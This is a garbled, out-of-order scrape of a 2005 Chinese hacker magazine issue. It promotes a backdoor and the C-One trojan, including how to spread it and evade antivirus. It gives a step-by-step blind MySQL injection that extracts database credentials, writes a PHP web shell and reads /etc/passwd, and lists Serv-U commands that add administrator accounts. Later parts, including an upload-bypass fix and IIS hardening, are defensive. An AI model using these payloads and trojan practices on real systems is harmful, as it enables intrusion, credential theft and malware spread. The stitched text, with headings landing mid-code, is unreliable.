| shutdown | 关机 |
| remove | 卸载后门 |
| http://.../srv.exe | 下载并执行 |
| quit | 退出 |

## 10月

## 黑客厨房黑客手册

虽然现在功能还不怎么样，计划会慢慢升级、完善的。但这样一个隐藏的后门，加一个隐藏的帐号，再加一个 3389 端口，这样的肉鸡难道还会掉？！

## 三、注意事项

通用的后门其实也没什么要注意的，这个后门因为采用反向连接，所以穿透防火墙的能力比以前很多后门的能力强。但正是因为采用反向连接，所以连接时两台机子必须要有一个公网 IP。这个是实现连接的前提。内网上怎么连接这里就不讨论了，还有一点要注意，就是用户自己要小心开防火墙，不然禁止了反向连接，就不能连上了。各位怎么用 NC 进行内网的反向连接，明显这门的方法也是一样，这个大家自己去探索咯！还要说一句哦，本软件为免费软件，请勿将其用于非法用途。由本软件引起的任何后果均由使用者本人承担，软件作者概不承担任何责任。如果你发现了 bug，请和我联系，提一下意见，最好说明使用的环境，同时把 `winnt\temp\SysEvent.tmp` 发给我。

> 【本文讲的隐藏门 RandomDoor V1.0，专用连接工具 Random Door 已收录在本期光盘】

隐藏门的确，现在要想开一个不为人所知的后门的确是蛮难的。而按作者实现的思路来说，隐藏门能实现大家梦想的——无端口、无进程、超稳定的后门功能，是非常诱人的。相信大家在使用这个软件的同时，也可以借鉴作者的思路，在实践中利用反推法来达到目的。

# 只有一个功能的小马

# C-One

天涯衰草

我们在各种各样的安全杂志中常常看到介绍各种木马的文章，不过这些文章介绍的木马都以国内的木马为主，比如：黑洞、灰鸽子、PcShare、远程任我行等等，国外的木马却介绍得很少。其实在国外是有很多非常优秀的木马的，无论从功能上，还是从操作的方便程度来讲，一点都不比我们熟悉的这些差呀。今天为大家介绍的这款木马，虽然只有一个远程控制功能（我是第一次碰到啊），但是却支持反弹连接、线程插入等多种木马的最新技术，另外就是生成的服务端程序非常小巧，非常利于我们运用各种方式来传播木马程序。现在，就让我们请出今天的主角——C-One。

先从网上下载安装个全新的木马程序，解压后的文件夹中包括两个文件，分别是木马的客户端程序和一个说明文件。客户端程序通过一个明亮眼睛的图标来预示着 C-One 能帮助我们“看清楚”远程计算机中的一切。

现在来运行木马的客户端程序（图1），从图中我们可以清楚地看到，客户端程序操作界面的布置还是相当简洁的，并且已经进行了汉化（在此我们都应该好好感谢那些默默无闻的汉化人），这样在操作过程中就会更加方便顺手了。

首先还是来配置服务端程序。点击“服务端”按钮，在弹出的“C-One 服务端创建”窗口中进行配置。在“密码”和“确认”选项中输入用于服务端程序和客户端程序确认连接的密码（这里其实可以不用输入，但为了确保我们的肉鸡不丢失，最好还是设置一个）。接着在“DNS”选项后分别输入本地计算机的当前 IP 地址，以及用于数据传输的端口。

在“EXE 类型”选项中，C-One 为用户提供了“标准”和“自我删除”两项。“标准”选项是当服务端程序运行后依然保存在硬盘中，而“自我删除”则是服务端程序在运行后自动删除本身，用户可以根据自己的需要设置相应的选项。

另外，C-One 还提供了线程插入设置。在“插入进程”选项中，我们可以选择将服务端程序的进程插入到“默认浏览器”或“MSN Messenger”中。在“释放文件名称”选项中设置服务端程序在远程计算机中运行后生成的文件名称，在“注册表名称”选项中设置服务端程序利用注册表进行启动的键值（图2）。

相关信息设置完成以后，可以通过“生成服务端（无壳）”和“生成服务端（有壳）”两个按钮来生成完备的和通过 FSG 2.0 进行压缩过的小马服务端程序。它们的大小分别为 9KB 和 5KB。这么小巧的木马服务端，非常利于我们制作网页木马，以及通过远程溢出进行上传等等。

现在我们就可以通过各种各样的方式将木马服务端传播出去，等待远程计算机的上线。当有远程计算机上线以后，就可以进行操作了。任意选择一台上线的远程计算机，接着就会在窗口右侧出现远程磁盘的列表，我们可以通过浏览远程磁盘，对远程文件进行下载、删除、运行等操作（图3）。

有的朋友可能会问，一个功能的木马对我们有什么用呢？我们知道在入侵网站的时候，常常用到“一句话的 ASP 木马”，然后通过它来上传其他功能强大的 ASP 木马。所以，我们完全可以将其视为一个超强的“下载者”软件，让它来为我们上传其他强大的木马。

至此，一个功能的木马 C-One 就为大家介绍到此，感兴趣的朋友赶紧试试吧。现在装上使用的话，还可以享受免杀的时间，机会不容错过，呵呵。

> 【本文讲的 C-One 已收录在本期光盘】

编后语：想要马儿好，又想要马儿不吃草，这是所有养马人的共同心愿。同样，我们也需要“马儿”功能强大、隐藏性好，又体格小巧便于操作。而 C-One 除了功能单一了些，却具备了反弹连接、线程插入等技术，就像作者说的那样，我们完全可以将其视为一个超强的“下载者”软件，让它来为我们上传其他强大的木马。

# 十月·窗外

> 十月是一个让人兴奋的月份之一……（编者按整段引言，含邮箱 latteye@gmail.com）

十月的窗外秋意初现……技术永无止境！

## 出人意料！Google版操作系统现身

这是从一消息源获得的 Google 操作系统截图……（左栏长文）

## 微软Windows将添加Unix功能

微软公司计划把更多的 Unix 功能引进未来的 Windows Server……（右上栏长文）

## NVclock 0.8抢先下载

- 支持 GeForceFX6/7 系列显卡
- 支持 NV4X 模组 Modding
- 支持 6200Go 等笔记本电脑 Smartdimmer
- 支持 LM99/MAX6659/…芯片

NVclock 其实就是 Linux 系统上的 Rivatuner 软件……（该栏其余段落）

## Linux发明者推稳定升级版2.6.13 Linux内核

Linux 内核的下一个稳定升级版本已经发布……（右下栏长文）

# LAMP 环境下的注入过程

NONE

> 学习起步：LAMP＝Linux+Apache+MySQL+PHP。本文中 MySQL 版本为 3.x。

目标站点：http://www.xxxx.info

注入点：http://www.xxxxx.info/index.php?show=112。

注入方式：POST 提交注入数据，避免在日志中留下注入痕迹。

## 一、探测数据库类型和操作系统等一些参数

```text
show=112/*!32358%20s*/
```

得知用的是 MYSQL 数据库，版本为：3.23.58，刚好俺的 LINUX 系统升级后的 MYSQL 也是这个版本。

同时通过提交 HEAD 数据包得到其 WebServer 版本为 Apache/2.0.40 (Red Hat Linux)，从而得知其操作系统为小红帽 Linux 系统。

通过访问其 IP，可以直接访问到这个网站，大致判断这是一台独立主机。

还得知这台主机开放了 3306 端口，说明可以通过外部连接其 MySQL，就差连接的用户名和密码了。

## 二、进攻思路

MySQL 3.x 的注入并没有 4.x 以上的版本方便，如果运气不好的话可能不会有什么效果。

因为 MySQL 只在 4.x 以上才支持 union 等子查询语句，所以注入方式也不一样。同时得知当前数据库用户有 FILE 权限，这个很重要，而且因为是独立主机，所以文件权限设置方面不会那么变态，但不支持子查询只能读，没法控制写的文件内容。

我的思路是这样的：先读 `/etc/httpd/conf/httpd.conf` 这个 APACHE 的配置文件，从里面读出网站绝对路径，再根据这个路径读取 `index.php` 这个跟数据库操作有关联的文件，从里面得到其 include 的数据库连接配置文件的路径，再去读这个配置文件，根据关键字找出最终想要的 MySQL 连接用户名和密码。

## 三、注入代码及说明

（注：`//` 后面的文字为注释）

```text
// 先检查一下 FILE 权限。
show=112 into outfile '/tmp/a.txt'/*
// 该目录可写，不过写了也没什么用，因为没法控制写的内容，不能写已存在的文件。

show=112 and length(load_file('/tmp/a.txt'))>0
// 页面正常显示的话证明此文件读取成功，反之则不成功。

show=112 and ord(substring(load_file('/tmp/a.txt'),1,1))>97
// 页面正常显示的话说明文件的第一个字符的 ASCII 值大于 97，以下的判断方式差不多就是这个。

// 开始读 Apache 配置文件。
show=112 and instr(load_file('/etc/httpd/conf/httpd.conf'),'DocumentRoot "')=10043/*
// 开始从这个文件中找网站的绝对路径。10043+14 之后的路径就是网站的绝对路径。

show=112 and substring(load_file('/etc/httpd/conf/httpd.conf'),10057,1)='/'/*
// 第一位果然是“/”，证明这条路是对的。下面用 ORD 把下面的文件读出，当读到双引号则路径读取结束。

show=112 and ord(substring(load_file('/etc/httpd/conf/httpd.conf'),10058,1))>110/*
show=112 and substring(load_file('/etc/httpd/conf/httpd.conf'),10058,4)='/var/'/*
// 读四位，看是不是默认路径，这样省一些时间，页面正常显示着，看来有可能是。

show=112 and substring(load_file('/etc/httpd/conf/httpd.conf'),10057,14)='/var/www/html'/*
// 真是默认路径 /var/www/html 呀，省事了，呵呵。

show=112 and length(load_file('/var/www/html/index.php'))>0/*
// 读取成功。

// 先读 index.php
show=112 and instr(load_file('/var/www/html/index.php'),'include(')=5/*
// 通过搜索得到第 5 位开始有一个 include 语句，猜 include 的下一个字符的位置就是 5+8=13。

show=112 and ord(substring(load_file('/var/www/html/index.php'),13,1))=34/*
show=112 and ord(substring(load_file('/var/www/html/index.php'),14,1))=99/*
show=112 and ord(substring(load_file('/var/www/html/index.php'),25,1))=41/*
// 依次得到的 ASCII 值为：34 99 111 110 102 105 103 46 112 104 112 34 41，
// 转换后的字符为：“config.php”。
// 这很有可能就是数据库的配置文件，开始读它。

show=112 and instr(load_file('/var/www/html/config.php'),'pass')=67/*
// 通过搜索关键字“pass”，从而得到其后面的内容，可能就是密码，得到“pass”的位置是 67。
// 下一个字符的位置应为 67+4。

show=112 and ord(substring(load_file('/var/www/html/config.php'),71,1))>119/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),72,1))>111/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),73,1))>114/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),74,1))>100/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),75,1))>32/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),76,1))>61/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),77,1))>32/*
// 得到的结果为 “word = ”，天呀！老被它骗了这么多无用功！password。

show=112 and ord(substring(load_file('/var/www/html/config.php'),78,1))>34/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),79,1))>109/*
```

# 二、制作文件补丁注册机

```sql
show=112 and ord(substring(load_file('/var/www/html/config.php'),80,1))>97/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),81,1))>120/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),82,1))>51/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),83,1))>53/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),84,1))>51/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),85,1))>52/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),86,1))>55/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),87,1))>54/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),88,1))>34/*

// 得到 "password='max353476'"

show=112 and substring(load_file('/var/www/html/config.php'),79,9)='max353476'/*

// 验证成功！

show=112 and instr(load_file('/var/www/html/config.php'),'username')=40/*
// 该为用户名了

show=112 and ord(substring(load_file('/var/www/html/config.php'),50,1))=34/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),51,1))=120/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),52,1))=120/*
show=112 and ord(substring(load_file('/var/www/html/config.php'),53,1))=120/*

show=112 and ord(substring(load_file('/var/www/html/config.php'),59,1))=34/*
// 得到 "username='xxxuser'"

show=112 and substring(load_file('/var/www/html/config.php'),51,8)='xxxuser'/*

// 验证成功！

// 看一下这个用户是否有远程连接的权限
// 哈哈：能连，看来运气真的不错呀，居然这个用户有MySQL的最高权限

// 写一个shell到网站目录中，下面是mysql语句：
mysql> create table cmd(str varchar(255));
mysql> insert into cmd values('<?$c=!empty($_POST[\'c\'])?$_POST[\'c\']:"";?>');
mysql> insert into cmd values('if($c){system($c);exit;}?>');
mysql> select * from cmd into outfile '/var/www/html/faq.php';
```

至此，就在网站根目录写入了一个shell了。连接方式：`http://www.xxxxx.info/faq.php`  
POST：`c=ls /var/www/html`  
如果显示目录列表就说明这个shell成功执行了。

## 四、提升权限

通过读取 `/etc/passwd` 文件获得当前系统用户状况。（可以参考本期用户管理文章）

```sql
mysql> select load_file('/etc/passwd');
root:x:0:0:root:/root:/bin/bash
...
ghadmin:x:500:500::/home/ghadmin:/bin/bash
xxxxftp:x:501:501::/var/www/html:/sbin/nologin
ghbackup:x:502:502::/home/ghbackup:/bin/bash
xxxxssh:x:503:503::/home/xxxxssh:/bin/bash
```

读出passwd文件，得到几个有效的系统用户，最终以xxxxssh为用户名，刚才得到的密码ssh上去，并溢出直接得到root权限。提升权限还可以通过刚才的webshell下载一个bind.c，通过gcc编译后绑定一个端口，然后telnet上去，再溢出得到root权限。当然，这要求系统没有开设防火墙，让我们开的端口能正常连接，并且系统刚好有让我们溢出的漏洞。

> 结束语：本次攻击能够成功，是因为运气不错。还有，现在大家看到的文章介绍的大部分都是php+mysql4.x以上版本的环境，但是UNIX类系统现在使用最多的还是MySQL3.x的版本，如果按MySQL4.x的方法来注入，当然会令人郁闷了:)

制作文件补丁注册机就容易多了，我在这里说一个思路，大家可以自行动手操作。还用绿洲作为例子。注意观察前面的反汇编代码，会发现00494845这个地址为关键跳转，如果我们把0F85改成0F84就完成了跳转。现在用UltraEdit-32来进行改动，并保存为一个nohack.exe的被解文件，然后再打开KEYMAKE选择制作文件补丁即可（图8）。


这样就完成了文件补丁的制作，大家都知道生成的补丁程序会自动将原程序修改成破解后的程序，这样就完成了破解。

虽然文件补丁这样的例子我们在以前的文章中曾用程序实现过，但其实使用KEYMAKE会更方便、更快捷。本文介绍的只是注册机制的一个最简单、最容易的部分，如果你觉得你确实需要再深层理解这个技术的话，请学汇编语言努力吧。

夜深人静，独自一人静静思语。记录下一种心情，写下一个故事，我们把成长的精彩碎片存储在黑客日记中。只待某天回首，苦涩青春到底留下了什么……

## 孤独的归宿——落窝篇

IceSkySI [IST]  2005年9月12日

一个人在网络中行走了这么久，时常在网上找寻免费的资源来给自己落个窝，无奈每次都是才架好自己的网站没几天，服务器就又出问题了。每当这时，除了暗骂服务商家用假的信息糊弄的同时，也时常考虑自己是不是应该花点钱买点地盘给自己在网上做个窝了，但一直都没有搞好。今天夜里，我一个人坐在电脑前就无名地伤感起来，想找个地方发泄下自己的情感，吐吐自己的酸水，无奈放在我新找空间上的网站又打不开了，伤心之余，决定下决心花“银子”买……

很快就好了，空间、域名全部搞定，只花了2小时就开通了。连上FTP，把自己的站点文件统统塞到服务器上，手忙脚乱地做好数据库和界面修饰，一个首页文章发布系统，一个站内论坛，和一个私人BLOG很快就全部搞定，再把自己写的一些文章发布上去，润色好BBS，再到BLOG里吐吐酸水和感受，心里好舒服……

坐下来欣赏着自己的成果，哈，自己的站就是越看越顺眼，看哪里都是完美的，要是觉得哪里不满意，就自己修改修改，哈，不错不错，总算有了自己的窝了，再也不用天天国内国外地找空间、寻域名了，也不用架在肉鸡上天天睡觉都担心别被人家发现了。自己的就是好，充分体会到了——顾客就是上帝，有什么问题他们都解决好了，爽啊~

网站做好了，激动的心情也平静下来，想想自己的冲动，分析下原因：也许是人人都需要自己的一片天地吧，总喜欢一个自己落脚的地方，网上更是这样，特别是做我们这行的，在网上到处流浪，常常孤身一人，很是寂寞，记得小榕的主页上写着：无论在现实还是在网络中，我都是孤独的。其实很多人都是孤独的，自然包括我自己……

# 网站被黑分析

IceSkySI [IST]  2005年9月22日

中秋节一个人坐火车去外面转了3天，也没有去上网，今天回家，一朋友在我QQ上留言说我的站被黑了，让我快些修补。还真吓了我一跳呢？小站架好才几天啊，我也没对外面公布我的地址啊，怎么就有人找上门来了呢？真是邪门咯。没敢多想，打开站点一看果然被黑，主页被人修改，原来的主页被备份了，好像BBS、BLOG也没有被破坏，其他的也没修改或坏什么。看了下留言，是一叫做blue light的人，后面还跟了一个ID叫魔王的人，真见鬼啊！连上FTP，查看文件改动的时间记录，可以看到这个文件是9月17号上午9点被人修改过，而17号正好是我外出那天，我记得前天晚上也就是16号晚上，我更新完网站时没见到什么异常，看来那人就是在17号做的。虽然他没做什么破坏，但是心里还是很奇怪，怎么会被黑了呢？试着分析下：

这个人可以修改我主页，还可以随便地备份文件，看来应该是得到了我站的webshell了，或者是服务器上别人的webshell了，或者就是拿到我的FTP账号和密码，要不就是服务器的系统权限。OK，就从这4方面来分析吧：

首先我审查了自己站的代码，前台的一个是文章发布系统，没有任何的图片、附件上传的功能，也不存在一些明显的漏洞，在这个文章发布系统上他是做不了什么文章的；再看BBS，这个是DZ!2.5的版本，漏洞已经修补了，也没什么利用价值；再看BLOG系统，这个大多数代码是自己写的，程序没有公布出去，前台也没有上传权限，后台密码验证也没有记录到猜解的痕迹，看来不是从这里来的。那应该不是我自己站的漏洞造成的，那么是怎么回事呢？难道是……对，难道是旁注，这个很有可能，现在也很流行。

查了下服务器上的站，有个BBSXP的论坛年久失修了，可以拿到webshell，但是在拿到webshell后并没有办法修改别人的文件，这是服务器设置的，想突破不容易的，除非他可以拿到更高的权限，看来不是webshell直接修改的……

接着看，FTP密码，这个开始想起来觉得不太可能，可是最后想到以前BCT和安全天使被黑就是因为被人拿到了FTP的密码，觉得这个的可能性也很大，跑到留言的BLOG看了下，有几篇ARP欺骗和SERV-U密码嗅探的文章，看了下，总算明白了。是这样的，他首先在我服务器所在交换机下的IP中寻找一个比较弱的网站入侵进去，然后开了3389，再架一小榕写的WinArpSpoof扫描一下看在不在列表内，接下来用arpsniffer得到我登录服务器时的账号和密码，最后用我的FTP密码修改了我的网站，这应该就是原因了。

事后找到那个人问了下，果然是这样的，思路完全正确哦。

# 无题

独孤刀客  2005年9月20日  成都 大热天

夜晚回到住处，打开电脑继续敲打着未完成的代码……有时候总想有什么时候可以无所事事，什么都不用做，什么都不用想。但是只要在现实中你就必须遵守它的法则。好比你吃饱喝足了，就可以瞎想一些人生啊、宇宙啊、阿富汗难民啊、人道主义啊！但若是你还饥肠辘辘，你首先想到的就是要吃饱了，这也就是老马教导我们的“物质决定意识”吧！

一位职业程序员告诉我：“写程序习惯很重要！”而自己不过犹如成都的天气般隔个三两天就热乎一下，实在是一个不好的习惯。所以今晚临时抱抱佛祖的脚写起代码来也有些吃力。不过好在我脸皮厚，只要想得到的就敢去编它，不会就现学现卖！这两天正在给“雇主”（暂且这样说吧）写个网络U盘的程序，想来也简单，利用邮箱附件存储文件，思路一通剩下的也就是敲代码了。不过测试依然要花大力气！听陈经络说他写黑洞只用了一个晚上，而且不测试就发布出去了！而黑洞基本上也没发现什么BUG，不像某些程序动不动就“修改了某某BUG”，过不了几天就发了N个版本。于是越发敬佩陈严谨的逻辑思维能力，越发觉得平时的习惯不可小觑。

我的本本（电脑）又开始喊累了，程序写完就去给它加条内存条吧！

# 客串 WIN2003 服务器管理员

前两期“反黑现场”带着大家打假（《顺藤摸瓜——假淘宝网追踪手记》）、抓马（《网页挂马记》），忙得不亦乐乎。哪里有“黑”，哪里就有我们“反黑现场”！这期“反黑现场”就和大家一起“客串”一回WIN2003服务器管理员，感谢大家友情出演，请大家往下看吧。

寂寞的刺猬

9月份的一天，忽然接到表弟的电话……（对话与引入段落）

## 上篇：攻略

### 一、收集信息

表弟所在的是一所县级中学……看来应把重点放在免费空间上。（左栏长段落，主要讲网站程序组成、初步排查与ASP木马来源判断）

### 二、上传脚本

在其免费空间申请了一个“5200”用户……分析CER扩展与上传流程。（左下延续段）


倒是怪了，入侵者是如何把ASP文件传上去的？……成功取得WEBSHELL权限。（中栏正文，围绕上传绕过测试与结果）


### 三、提升权限

有了WEBSHELL，咱也去观察一下……竟然是5.X版，天助我也！（右栏正文，讲ASPX权限尝试、命令测试、端口与Serv-U信息）

> 小提示：综合网络中介绍的SERV-U提权方法……（含1、2、3条要点）

- 1. 如果ServUDaemon.ini可以写入；
- 2. 上传SERV-U本地溢出工具，直接增加服务器管理员；
- 3. 上传FPipe端口转向工具……

# 10月 黑客组织黑客手册


“错误提示”告终，这是怎么回事？用 SupperScan 扫描其开放端口，只返回了21和80端口。在刚才查看服务器进程时，并没有发现该进程啊？这是怎么回事。电话询问表弟，原来服务器是通过路由连接到 INTERNET，在路由上只开了21和80端口，晕啊！

```vb
for i=0 to scr
  if GetNoFile(i)=SetExt then  // 判断扩展名的合法
    CheckFile="<br><I>没有权限上传此脚本文件! "
    exit Function
  end if
next
```


## 下篇：防堵

### 二、程序漏洞安全

DOWN 了一套方舟网免费空间 V3.0版，仔细分析上传部分的代码，果然存在严重漏洞，下面就来简要说说方舟的上传过程：使用 WsockExpert 工具抓数据包，得到上传所用文件是：“SaveUpload_adv.asp”，在其中稍稍倒腾，找到了以下语句：

```vb
For each formName in upload.Form  ' 列出所有上传了的文件
  if IsObject(upload.Form(formName)) then
    set file=upload.Form(formName)
    dim nlen: nlen=InstrRev(file.UserFilename,"\")
    NewFileName=Mid(file.UserFilename,nlen+1)
    NewFilePath=left(file.UserFilename,nlen)
    if file.TotalBytes>0 then
      action=CheckFile(NewFileName,0,"01")
      if action="True" then
        file.SaveAs Server.MapPath(formPath&NewFileName)
      end if
    end if
  end if
next
```

从上面的代码中可以看出，关键的一句是：“action=CheckFile(NewFileName,0,"01")”，而其中的 CheckFile() 是哪儿的？通过查看该文件的“#include FILE”，在 INC/Syschar.asp 中找到了这个自定义函数，如下：

```vb
Function CheckFile(SetName,ischeck,mode)
  CheckFile="True"
  SetExt=lcase(GetExtName(SetName))
  Select CASE mode
    CASE "00"
    CASE "01"
  End Select
End Function
```

在判断扩展名是否合法时，用到了两个名称，GetNoFile(i) 和 SetExt。从所调用的 ASP 文件中找到了 GetNoFile(i) 的含义，它代表的是程序定义的禁止上传文件类型：“asp,aspx,asa,inc,db,php,jsp,inc”。而 SetExt 呢？在 CheckFile 过程中，一开始就定义了 SetExt=lcase(GetExtName(SetName))，但 GetExtName() 是什么意思？带着疑惑，在 Syschar.asp 中找到了这个自定义函数：

```vb
Function GetExtName(SetName)
  GetExtName=""
  if instrRev(SetName,".")<1 then exit Function
  GetExtName=lcase(mid(SetName,instrRev(SetName,".")+1))
End Function
```

走到这里，就算找到根了，`GetExtName=lcase(mid(SetName,instrRev(SetName,".")+1))` 这一句是从上传来的文件名中截取扩展名，而截取的方法是用 InstrRev() 从右向左查找小数点位置，然后用 MID 截取。从 “SaveUpload_adv.asp” 中使用 “NewFileName” 变量提取出文件名，到最后使用 CheckFile() 判断扩展名的合法性，这中间没做任何过滤，直接用取得的扩展名前面与 GetNoFile(i) 中的限制类型相比对，而 “asp<>asp.”、“asp<>asp 空格”，所以也就把加了小数点或空格的 ASP 文件传上去了。按照 WINDOWS 的文件命名规则，扩展名后加空格或小数点，原文件格式不变，这也就是为什么加了小数点或空格的 ASP 文件照样能够运行的原因。

找到了漏洞，下面就来修补它。对于空格过滤，可以采用 Trim() 或 Replace() 命令来过滤；但对于扩展名后的小数点，起初我用 Len()，根据所得的长度来判断上传文件扩展名的合法性，却发现 len() 在这里竟然不能用，郁闷！如何才好分辨出扩展名后加了小数点呢？正在我冥思苦想之际，忽然看到了 InstrRev() 函数，眼前顿时一亮，哈哈！让它和它的哥哥 Instr 从左右两个方向查询小数点的位置，如果一致，则说明文件名称合法，否则的话，那就拒绝上传！

- 1. 先连接43958端口转向，再用本地安装的 SERV_U，通过默认账号 LocalAdministrator 和密码远程连接，增加有执行权限的账号，再用 FTP 连接，增加服务器管理页。
- 2. 破解 ServUDaemon.ini 中的管理员账号密码，拿到密码后再用 FTP 连接，增加服务器管理页。

这四种方法，最简单的还是上传本地溢出工具增加管理员账号。于是从网上 DOWN 了一些 SERV_U 本地溢出工具，试了一个又一个，最后试到“要饭和 XIAOLU”的 SERV_U 本地权限提升工具时（如图8），在下方返回了一些信息，看样子像成功溢出。用“NET USER”查看用户，果然增加上了。接着在 CMD、NET 中输入命令：`s-u.exe 43958 "net localgroup administrators admin /add"`，把用户 admin 加入到管理员组。


OK，现在偶已经是管理员了，记得刚才用“NETSTAT -AN”查看端口时，其中有3389远程连接端口，偶也远程管理一回！

# 黑客手册：黑客日记

```asp
SetName=Replace(SetName,...)
if InStrRev(SetName,".")<>InStr(SetName,".") then
  CheckFile=1
  exit Function
end if
```

再次测试，就没有权限上传脚本文件了！修补完成！……这里以 upfile.asp 为例，其 BUG 代码如下：

```asp
for each formName in upload.objFile
  set file=upload.file(formName)
  types=lcase(mid(file.filename,inStrRev(file.filename,'.')+1))
  if filetype<>"" then
    filetype=split(filetype,"|")
    for i=0 to ubound(filetype)
      if lcase(types)=filetype(i) then
        response.redirect "../error.asp?error=filetype"
        erro=true
        exit for
      end if
    next
  end if
next
```

```asp
types=replace(types," ","")
if inStrRev(file.filename,".")<>inStr(file.filename,".") then
  Response.Write "<script>alert('系统提示...');location.href='javascript:history.back()'</script>"
  set upload=nothing
  response.end
end if
```

在方舟 v5.0 中，除了有上传漏洞外，还有一个地方，就是重命名的漏洞，如上传一个“jm.txt”文件……

会检查文件中是否包含一些 ASP 木马特殊字符……然后重命名为“jm.asp.”文件，就改为 ASP 格式了……

```asp
types=replace(types," ","")
if inStrRev(sTo,".")<>inStr(sTo,".") then
  Response.Write "<script language='javascript'>alert('对不起，文件名不能含多个小数点！');location.href='javascript:history.back()'</script>"
  response.end
end if
```

据了解，在表弟学校建站初期，FTP 使用的是 SERV-U……如果继续使用 SERV-U，则要升级为 6.X 版本……

## 三、2003 服务器配置

- 1. 格式转换
- 2. 网站规划

如果你的分区格式还是 FAT32 的，赶快转换为 NTFS 吧……“CONVERT 盘符: /FS:NTFS”
一个好的网站，在于管理和维护的及时……


## 3. 创建账户

打开“计算机管理”，点击控制台树中的“用户”，新建“IISUser_index”……（如图10）。


依次类推，再为网站内所存放的其他版块分别创建对应的账户……并将账户加入“IIS_WPG”组中，如图11。


## 4. 应用程序池

在 WIN 2003 “INTERNET 信息服务（IIS）管理器”中，增加了一个新的单元——“应用程序池”……


在应用程序池“index”上点右键，选择“属性”，在“回收”项目中，设置“内存回收”栏中“最大虚拟内存”和“最大使用内存”的数值。再切换到“标识”项目内，程序池标识默认为“网络服务”账户，这里要将标识更改为前面所创建的账户，选择“配置”，再次点击“浏览→高级→立即查找”，选择其中的“IISUser_index”账户，点“确定”回到程序池属性窗口，输入创建用户时所设置的密码进行最后设置，这样“index”的应用程序池标识就设置好了（如图13）。


接着用同样的步骤创建“bbs”“free”“news”程序池相关属性。

## 5. 配置网站

在“IIS 管理器”内，停止或删除“默认网站”，使用“网站创建向导”新建一个 WEB 网站，其中的“网站主目录”设置为前面所设置的 INDEX 文件夹（如图14）。


在接着的“下一步”中将虚拟目录权限勾选“运行脚本（如 ASP）”，就完成了网站创建。然后在创建的网站目录内，新建四个“虚拟目录”，虚拟目录的路径则分别是 J 盘 INTER 文件夹内的 BBSXP 论坛目录、NEWS 新闻目录、FZWEB5 免费空间目录、FREE 免费空间用户目录。

接下来给每个版块都设置一个匿名访问账户，这样做是为了配合后面要设置的网站目录权限，增强网站的安全性。先来设置主页 Index 目录的匿名访问账户，右击控制台树中的网站名称，选择“属性”，在打开的窗口内切换到“目录安全性”项目，点击其中的“编辑”，选择“启用匿名访问”，然后依次点击“浏览→高级→立即查找”，选中前面所创建的“IISUser_index”账户，再输入该账户的密码，就把该网站的匿名访问权限授予给了“IISUser_index”账户（如图15）。


接下来就要对网站及虚拟目录进行应用程序设置，也就是设置“程序池”。同样先打开网站目录的属性，切换到“主目录”项，在下方的“应用程序设置”中，点“创建”，输入一个自定义的“应用程序名”，然后点击“应用程序池”的下拉箭头，选择为此目录所创建的应用程序池（如图16），主目录 index 的应用程序池选择的是“index”。


网站相同，另外三个虚拟目录的程序池也按此设置，选择所对应的程序池，如 bbs 虚拟目录选择程序池“bbs”，news 虚拟目录选择“news”。

## 6. 设置系统盘内目录权限

这一道工序是最复杂的，也是最不容易设置的。稍一疏忽，不是网站不能正常运行，就是出现安全问题。笔者曾经经历过十几种问题，再加上偶尔的疑难怪症，终于设置完成。

在列举系统盘及子目录权限设置之前，先来说一下权限设置方法，如对某磁盘或目录进行设置，在其上点击右键，选择“属性”，切换到“安全”项（如图17）。这里列出了对该目录有访问、读取、写入等权限的用户组，在下面的权限框内是一些简单的权限设置。


要设置得更细更安全一些，则点“高级”打开“高级安全设置”窗口，如图18，在后面的设置中，都是对此高级安全项的设置，所以要多说两句，以便大家能够掌握。


先说三个按钮：第一个“添加”按钮，这个是用来添加用户或用户组的，添加方法是：“添加→高级→立即查找”，选择列表中的用户或用户组。第二个“编辑”按钮，这个是用来设置用户或用户组权限项目的，如选中“Users”组，点“编辑”，打开的权限项目窗口（如图19），权限设置得较细，有读取、写入和删除等多种权限。


## 8. 设置网站目录权限

在设置完系统盘内目录及一些程序权限后，接下来就是设置网站目录的权限了。在前面设置网站时，我们给每一个版块都分配了一个不同的匿名访问账户，而要禁止木马对其他版块的访问，就要再次对这些版块目录进行权限设置。


> 注意：以下选择均为允许项：A. 完全控制（全部选择）；B. 读取和运行（遍历文件夹/运行文件、列出文件夹/读取数据、读取属性、读取扩展属性、读取权限）；C. 特殊（不选“完全控制”“遍历文件夹/运行文件”“删除子文件夹及文件”“删除”）。

首先对 INDEX 目录设置权限，在“高级安全设置”窗口中删除 Administrators 和 SYSTEM 组外的其他名称，然后添加 IISUser_index 账户，权限选择“B：读取和运行”；由于网站内有 ASPX 程序，还需添加 ASPX 的 IISUser_news 账户并赋予同样权限，再勾选“替换子对象”。


| 网站目录 | 用户/组 | 权限 | 备注 |
|---|---|---|---|
| INDEX 主目录 | ADMIN+SYSTEM / IISUSER_INDEX / IISUSER_NEWS | A / B / B | 勾选替换 |
| BBSXP 论坛 ASP 程序 | ADMIN+SYSTEM / IISUSER_BBS | A / B | 勾选替换 |
| BBSXP 数据库及上传 | ADMIN+SYSTEM / IISUSER_BBS | A / C | IIS 中执行权限无 |
| NEWS 新闻 ASPX 程序 | ADMIN+SYSTEM / IISUSER_NEWS | A / B | 勾选替换 |
| NEWS 数据库及上传 | ADMIN+SYSTEM / IISUSER_NEWS | A / C | IIS 中执行权限无 |
| 其他目录同上 |  |  |  |

## 9. 测试

复制一个网页木马到可写目录后测试访问，若该目录在 IIS 中“执行权限”为“无”，则会出现无法显示或无法执行脚本的结果；即使文件上传成功，也无法作为可执行木马运行。


# 10月 黑客自诩黑客手册

